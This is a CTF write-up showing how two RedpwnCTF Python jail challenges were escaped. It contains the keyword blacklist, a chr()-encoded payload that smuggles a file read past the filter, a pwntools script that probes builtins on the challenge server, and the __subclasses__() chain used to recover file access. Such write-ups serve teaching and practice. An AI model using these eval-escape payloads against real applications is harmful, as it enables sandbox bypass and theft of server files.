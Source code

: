```yaml
---
title: RedpwnCTF - Exploiting python eval to escape pyjails
description: Writeup for 2 pyjails challenges exploiting eval function.
categories: python, pyjail
author: Xh4H
tags: python ctf redpwnctf pyjail
---
```


# Introduction
Welcome to this post. I will show how I solved all the python jails challenges (pyjail) from RedpwnCTF.

## genericpyjail

**Challenge description**
When has a blacklist of insecure keywords EVER failed?

nc chall2.2019.redpwn.net 6006

blacklist.txt
```
import
ast
eval
=
pickle
os
subprocess
i love blacklisting words!
input
sys
windows users
print
execfile
hungrybox
builtins
open
most of these are in here just to confuse you
_
dict
[
>
<
:
;
]
exec
hah almost forgot that one
for
@
dir
yah have fun
file
```

**Ready, set, eval!**
Let's test it, ``nc`` to that address.

<div style="text-align:center"><img src="/assets/images/pyjail1.png" /></div>

We are told theres a file called flag.txt. If we try to run ``open`` function it will not work since it is present in the blacklist.

When we send our input, it first gets checked with that blacklist, and if it passed all the checks, it gets evaluated.

After a lot of trial and error, i ended up converting ``int(open("flag.txt", "r").read())`` to the ascii code of each character. Then used chr(number) to convert each ascii code back to the original character. Char by char i built back my initial payload without it being directly present in my input.

```py
chr(105) + chr(110) + chr(116) + chr(40) + chr(111) + chr(112) + chr(101) + chr(110) + chr(40) + chr(39) + chr(102) + chr(108) + chr(97) + chr(103) + chr(46) + chr(116) + chr(120) + chr(116) + chr(39) + chr(44) + chr(32) + chr(39) + chr(114) + chr(39) + chr(41) + chr(46) + chr(114) + chr(101) + chr(97) + chr(100) + chr(40) + chr(41) + chr(41)
``` 

<div style="text-align:center"><img src="/assets/images/pyjail2.png" /></div>

Time to send this to the jail!

<div style="text-align:center"><img src="/assets/images/pyjail3.png" /></div>

Please note how I added the int function in order to make it throw an exception containing the flag. I analyzed this technique in my other post called [Python - Hacking with style - input](https://posts.xh4h.com/python/2019/08/03/input_magic.html).

**flag**: flag{bl4ckl1sts_w0rk_gre3344T!}

## genericpyjail2

**Challenge description**

how unoriginal do you have to be to make two of these

nc chall2.2019.redpwn.net 6007

**Action**

We do not have a blacklist now, but we can't use whitespaces or tabs. And we have a very limited set of builtins. You may be asking how I knew that. I made the following script to analyze builtins:

```py
from pwn import *
import re

r = remote("chall2.2019.redpwn.net", 6007)
r.recvline() # wow! again, there's a file called flag.txt! insane!

def main():
	matches = []
	i = 0
	response = ""
	exc = ""
	while (exc.find("out of range") == -1):
		r.sendline("int(dir(__builtins__)[%d])" % i)
		i = i + 1
		response = r.recvline() # Now it's ...
		exc = r.recvline() # Exception ...
		module = re.search( r"'(\w+)'", exc, re.M|re.I)
		
		if module:
			matches.append(module.group(1))
			print "New match: %s at index %d" % (module.group(1), i)


	print "finished"

	print ", ".join(matches)

try:
	main()
except Exception as e:
	print e
```

This script establishes a connection and sends ``int(dir(__builtins__)[i])`` where ``i`` is a number from zero to infinity until the jail said we where out of range. I used ``dir`` function to list builtins and ``int`` to get the raw exception, again ^^.

The script would then output every single match, and once finished, it would display every single match comma separated. This was useful to know our environment.

<div style="text-align:center"><img src="/assets/images/pyjail4.png" /></div>

There was no interesting function here that would help me with reading files.

I decided to recover deleted functions, yes, that's possible.

Accessing sub-sub-sub-.... modules of an empty tuple ``()`` we can get interesting information. There's a post [here](https://www.floyd.ch/?p=584) that talks about this.

Empty tuples have ``object`` as base class which has a subclass called ``warnings.catch_warnings``, with this we can print to the console (remember that we can't send whitespaces).

This is found here:
```py
().__class__.__base__.__subclasses__()[59]().__module.__builtins__['print'] # returns a function, print
```

With the piece of code above we can print again all modules inside subclasses and we find the following information. 
```py
().__class__.__base__.__subclasses__()[59]()._module.__builtins__['print'](().__class__.__base__.__subclasses__())
```

<div style="text-align:center"><img src="/assets/images/pyjail6.png" /></div>

There is a module of ``type file``. ``open`` function pretty much gets reduced to file, therefore we can read a file with it. It is located in the index 40.

```py
int(().__class__.__base__.__subclasses__()[40]("flag.txt","r").read())
```

Here, again, I used the int() exception :D.

<div style="text-align:center"><img src="/assets/images/pyjail5.png" /></div>

## Notes
### Notes for genericpyjail1
Instead of building a long chain of chr(number), it could have been solved as well by sending a base64 encoded string and decoding it on the fly: ``"base64payload".decode('base64')``.


### Notes for genericpyjail2
Appart from having used ``().__class__.__base__.__subclasses__()[59]()._module.__builtins__['print']`` to print, we could have used one from the builtins we saw, ``raw_input``, by having passed as parameter ``().__class__.__base__.__subclasses__()``. Remember I analyzed this in the post [mentioned earlier](https://posts.xh4h.com/python/2019/08/03/input_magic.html).

<div style="text-align:center"><img src="/assets/images/pyjail7.png" /></div>
Thanks for reading :)

<script src="https://www.hackthebox.eu/badge/21439"></script>
